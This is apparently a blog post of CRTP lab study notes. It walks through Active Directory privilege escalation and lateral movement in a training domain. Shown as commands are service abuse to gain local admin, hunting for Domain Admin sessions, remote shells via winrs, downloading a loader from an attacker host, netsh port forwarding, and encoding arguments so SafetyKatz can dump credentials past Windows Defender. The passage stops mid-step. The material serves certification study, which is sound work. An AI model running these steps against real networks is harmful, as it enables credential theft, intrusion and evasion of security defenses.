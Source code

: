 ```yaml
---
title: Active Directory (AD) | Local Privilege Escalation (Part 1)
date: 2024-06-25 7:40:00 +0800
categories: [Cert, CRTP]
tags: [Cert, Active Directory]     ## TAG names should always be lowercase
render_with_liquid: false
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```



## Local Privilege Escalation

### Scenarios Leading to Privilege Escalation
 
 - Hunting for Local Admin Access: Gain local admin access on other machines.
 - Hunting for High Privilege Domain Accounts: Target accounts like Domain Administrator.
 - Example Scenario : 
    1. I have local admin access on a machine
    2. A Domain Admin has a session on that machine
    3. I steal his token and impersonate him
    4. Profit!

### Methods of Local Privilege Escalation on Windows
 
 - Missing Patches
 - Automated Deployment and AutoLogon password in clear text
 - AlwaysInstallElevated (Any user can run MSI on SYSTEM)
 - Misconfigured Services
 - DLL Hijacking and more
 - NTLM Relaying a.k.a Wont’t Fix
 - NTLM Relaying example - https://github.com/antonioCoco/RemotePotato0

### Essential Tools for Complete Coverage
 
 - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
 - https://github.com/enjoiz/Privesc
 - https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md - Very NOISY

## Step 1: Check for Privilege Escalation Paths

**Tools Used:** PowerView

This step ensures you can escalate your privileges on the current machine to gain local admin rights. Start by checking for any privilege escalation paths. If any services can be abused, add your domain user to the local admin group.

### Check for any priviliege escalation path
```bash
Invoke-AllChecks
```
![Result](/img/crtp/result1.png){: width="972" height="589" }
_Invoke-AllChecks_


### Abusing Services
Add your current domain user to the local Administrators group.

```bash
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```

![Result](/img/crtp/result2.png){: width="972" height="589" }
_Now, our user is a local admin !_


## Step 2: Identify Machines with Local Admin Access

**Tools Used:** Find-PSRemotingLocalAdminAccess.ps1

After gaining local admin rights on one machine, identifying other machines where you have local admin access helps in expanding your control over the network. This can give you access to more resources, data, or higher-privilege accounts. So, you have to identify any computers/machines in the domain where our user has local administrative access.

### Identifying Computers with Local Admin Access

```bash
Find-PSRemotingLocalAdminAccess
```
![Result](/img/crtp/result3.png){: width="972" height="589" }
_studentx has administrative access on dcorp-adminsrv and on the student machine_

So, studentx has administrative access on **dcorp-adminsrv** and on the **student machine.** We can connect to the machine with local administrative access using winrs or powershell remoting.
### Using winrs
```bash
winrs -r:dcorp-adminsrv cmd
set username
set computername
```
![Result](/img/crtp/result4.png){: width="972" height="589" }

### PowerShell Remoting
```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
![Result](/img/crtp/result5.png){: width="972" height="589" }

## Step 3: Identify Machines with Domain Admin Sessions

**Tools Used:** PowerView

After gaining local admin access on multiple machines, the next objective is often to escalate to **domain admin** privileges. Identifying machines where domain admin accounts are actively logged in provides an opportunity to steal their tokens and elevate privileges within the domain.

### Finding Domain User Locations
To identify machines where domain admin sessions are active, we can query the Domain Controller for information on ComputerNames and membership of the domain admin group with active sessions.
```bash
Find-DomainUserLocation
```
![Result](/img/crtp/result6.png){: width="972" height="589" }
_There is a domain admin session on dcorp-mgmt server!_

This information allows us to potentially exploit these sessions using techniques like winrs or PowerShell Remoting.

## Step 4: Extract Credential

**Tools Used:** SafetyKatz.exe

### **Abuse using winrs**
First, we check if we can execute commands on dcorp-mgmt and confirm if the winrm port is open:

![Result](/img/crtp/result7.png){: width="972" height="589" }

Now, our objective is to extract credentials using SafetyKatz.exe on dcorp-mgmt. To achieve this covertly, we'll transfer **Loader.exe** from dcorp-ci to dcorp-mgmt to avoid downloading directly onto dcorp-mgmt.

Downloading Loader.exe
```bash
iwr http://172.16.100.x/Loader.exe -OutFile C:\Users\Public\Loader.exe
```

Copying Loader.exe to dcorp-mgmt
```bash
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```

Setting up Port Forwarding
To further evade detection on dcorp-mgmt, we establish port forwarding using winrs. 
It's important to use $null for output redirection to avoid issues with command execution.
```bash
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 
listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x"
```

Additional Considerations
- Encoded Arguments: To bypass Windows Defender on dcorp-mgmt, encode arguments passed to Loader.exe for commands like sekurlsa::ekeys.

Note that Windows Defender on dcorp-mgmt would detect SafetKatz execution even when used with Loader. To avoid that, let’s pass encoded arguments to the Loader. 

First, run the below command on the student VM to generate encoded arguments for “sekurlsa::ekeys “ (not required to be run on the reverse shell):